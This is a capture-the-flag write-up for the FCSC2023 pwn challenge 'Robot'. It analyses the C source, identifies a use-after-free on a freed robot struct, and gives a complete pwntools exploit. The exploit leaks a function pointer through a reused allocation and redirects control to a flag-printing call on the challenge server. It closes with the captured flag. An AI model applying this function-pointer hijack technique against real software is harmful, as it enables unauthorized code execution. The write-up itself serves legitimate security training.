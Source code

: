 ```yaml
---
title: CTFs | FCSC2023 | Robot
author: Kaiba_404
date: 2023-05-01
categories: [CTFs, FCSC2023, Robot]
tags: [CTF, FCSC2023, pwn]
permalink: /CTFs/FCSC2023/pwn/Robot
---
```


# Robot

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/chall_robot.png)

The challenge give us two file: a source code and an binary file

- [robot](files/robot)
- [robot.c](files/robot.c)

The challenge tell us that this binary is protected by all classical protections like ASLR, W^X,...

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/binary_protection.png)

I decided to read the source code to find exploitable vulnerabilities. While analyzing the source code, I found a fascinating function called the 'admin', which is shown below. 

```c

void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
    char    result[65];

    SHA256((const unsigned char *) pwd, strlen(pwd), hash);

    for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        sprintf(result + (i * 2), "%02x", hash[i]);
    }

    if (strcmp(result, encrypted) == 0) {
        execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
        perror("execl");
        exit(2);
    } else {
        puts("ERROR: wrong password!");
    }
}

```


The 'admin' function is responsible for reading the flag. However, we need the admin's password to obtain the flag, which we don't have (of course!). As an alternative, we can attempt to directly jump into the code at the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`. However, this is not a straightforward task. According to the source code, the program is protected against buffer overflow and string formatting vulnerabilities. All inputs are rigorously checked, and the print statements are flawlessly formatted to prevent any potential exploitation.

However, it seems that the programmer for this robot forgot something. Consider the robot's functions. Their code was normal until I noticed something weird

```c
case '3':
    if (robot) {
        printf ("Vous allumez le robot. ");
        robot->move(robot);
        printf ("De la fumée commence à apparaître, puis des étincelles... %s prend feu !!!\n", robot->name);
        printf ("%s est complètement détruit\n", robot->name);
        free (robot);
    } else {
        puts ("Vous n'avez pas de robot !");
    }
    break;
```

Calling `free(robot)` without setting `robot=NULL` creates a vulnerability that can be exploited using a ***Use-After-Free (UAF)*** attack. To take advantage of this critical vulnerability, we will examine the structure of the robot and search for a way to exploit it.

```c
struct Robot {
    char name[16];
    void (*makeNoise)();
    void (*move)();
};

struct RobotUserGuide {
    char guide[32];
};

```

We can assume that the size of the robot struct is `16+8+8 = 32`, since the two function pointers always have a size of 8. Additionally, the struct RobotUserGuide has a size of 32 (perhaps this is a hint?). Continuing to examine the source code, I noticed that the struct `RobotUserGuide` is invoked in the following section:

```c
case '4':
    userGuide = malloc (sizeof (struct RobotUserGuide));
    printf ("Vous commencez à rédiger le mode d'emploi...\n> ");
    fgets (userGuide->guide, 32, stdin);
    break;
```

Voila, we can modify the parameters of struct robot through using struct RobotUserGuide. I proceed to test my conjecture:

![image](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/blob/main/_posts/CTFs/FCSC2023/pwn/img/find_the_vuln.png)

There are some weird characters appear when i type 5 and enter. These are the pointers to the functions as I analyzed above. At this point I conclude that this binary can be exploited because the programmer did not assign `robot=NULL` after free it.


## Exploitation

To exploit the vulnerability, we can follow these steps:
1. Create a robot with any name.
2. Play with the robot to call the free function on the robot.
3. Create a userGuide with a character length less than 16, which ensures that the address of the bleep function is not overwritten.
4. Request the program to display the userGuide screen, and obtain the address of the bleep function. This address will enable us to find the command to read the flag.
5. After obtaining the address of the `bleep` function, we can continue interacting with the robot and repeatedly call the free function. This will help the function pointer to eventually point to the address where we want the next action.
6.  Next, we can attempt to overwrite the 17-24th byte in the userGuide (which is pointed to by the function pointer of the robot struct) with the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`
7.  Finally, by using the `le faire paler`, we can trigger the exploit and obtain the flag.

Here is my full exploit code:


```python
from pwn import *

# p = process("./robot")
p=remote("challenges.france-cybersecurity-challenge.fr",2101)

msg = p.recvuntil(b'Quitter')

p.sendline(b'1')
msg = p.recvuntil(b'l\'appelez ?')

p.sendline(b'qwerty')
msg = p.recvuntil(b'Quitter')

p.sendline(b'3')
msg = p.recvuntil(b'Quitter')



p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'0123456789')

p.sendline(b'5')

msg = p.recvuntil(b'Quitter')
msg = p.recvuntil(b'Que faites-vous ?')
print(msg)
p.recv()
leak_code = msg[19:35]
bleep_p64 = msg[19:27]
bleep_u64 = u64(bleep_p64)
log.success(f'[LEAK] {hex(bleep_u64)}')
cat_addr = bleep_u64 + 0x1f3
print(hex(cat_addr))
p.sendline(b'3')
new_msg = p.recvuntil(b'Quitter')


p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'A'*16+p64(cat_addr))


p.sendline(b'5')

newmsg = p.recvuntil(b'Quitter')
newmsg = p.recvuntil(b'Que faites-vous ?')


p.sendline(b'2')
# @admin- @bleep = 14e
# read_pass - @bleep = 1f3
p.interactive()

```

Result:

![image](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/blob/main/_posts/CTFs/FCSC2023/pwn/img/robot_writeup.png)

FLAG: `FCSC{136e057aa66dd6d6b772cae51260121f65973ff2045ec812ad597c9060a6a18d}`